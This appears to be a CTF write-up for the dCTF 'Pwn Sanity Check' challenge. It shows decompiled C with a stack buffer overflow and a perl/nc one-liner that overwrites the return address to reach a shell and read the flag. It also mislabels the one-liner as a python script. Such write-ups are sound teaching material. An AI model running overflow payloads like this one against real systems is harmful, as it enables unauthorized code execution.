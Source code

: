 # Pwn Sanity Check


> Tags: pwn, bof  
> Points: 100  

## Challenge Description
> This should take about 1337 seconds to solve.
nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480


## Analysis
So first of all I opened the given file on Ghidra and saw this.
```
void vuln(void)
{
  char local_48 [60];
  int local_c;
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
  ```

To solve this we needed a python script, which would skip all the basic parameters and get us the flag.

So this is the python script that we wrote
```python
(perl -e 'print "\xdb\x06\x40\x00\x00\x00\x00\x00"x"32"."\n"';echo "cat flag.txt")|nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```
So basically the address the computer will go to after the function is right after the area we are reading data into. 

So we just overwrite the address and the data that is being repeated 32 times is the address.
The result of this command is 

![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/pwn/Pwn-sanity-check/result_pwn.png)

The flag: dctf{Ju5t_m0v3_0n}
